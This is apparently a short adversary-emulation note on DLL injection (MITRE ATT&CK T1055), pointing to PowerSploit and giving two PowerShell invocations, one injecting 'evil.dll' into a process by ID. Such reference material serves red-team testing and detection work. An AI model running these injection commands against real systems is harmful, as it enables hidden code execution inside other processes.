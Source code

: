 ## DLL Injection

MITRE ATT&CK Technique: [T1055](https://attack.mitre.org/wiki/Technique/T1055)

Examples and code resource for [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/tree/master/CodeExecution)

### PowerShell Invoke-ReflectivePEInjection

Input:

    C:\Users\Public\PowerSploit-master\PowerSploit-master\CodeExecution\Invoke-ReflectivePEInjection.ps1

### Powershell Invoke-DllInjection

Input:

    C:\Users\Public\PowerSploit-master\PowerSploit-master\CodeExecution\Invoke-DllInjection.ps1 -ProcessID 4274 -Dll evil.dll
